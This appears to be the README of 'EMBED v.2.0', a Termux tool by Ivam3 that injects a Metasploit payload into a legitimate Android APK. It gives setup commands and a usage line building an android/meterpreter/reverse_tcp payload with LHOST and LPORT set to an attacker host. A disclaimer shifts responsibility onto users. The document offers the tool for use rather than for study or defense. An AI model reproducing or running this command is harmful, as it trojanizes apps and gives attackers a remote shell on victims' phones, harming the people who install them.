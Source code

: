 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Zipalign

# INSTALLATION.
Give execute permissions to the configuration file setup:

	$  chmod +x setup

Now run the setup file:

	$  bash setup

This file will install and configure Termux with all the required libraries and dependencies including java for termux.


# JAVA FOR TERMUX

	https://github.com/ivam3/java

This software and related documentation are provided under license agreement containing in www.java.com. Please refer to http://java.com/licensereadme.

# USAGE

	$ ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	._____ __  __ ____  _____ ____
	| ____|  \/  | __ )| ____|  _ \
	|  _| |TERMUX|  _ \|  _| | | | |
	| |___| |\/| | |_) | |___| |_| |
	|_____|_|  |_|____/|_____|____/ v.2
	#:::::::: By Ivam3 ::::::::::::#

	[Usage]─➤ EMBED.rb [target.apk] [msfvenom options]

This tool was written by Ivam3, <https://t.me/Ivam3byCinderella>
Some maintenance releases have been done by <https://t.me/Ivam3_Bot>

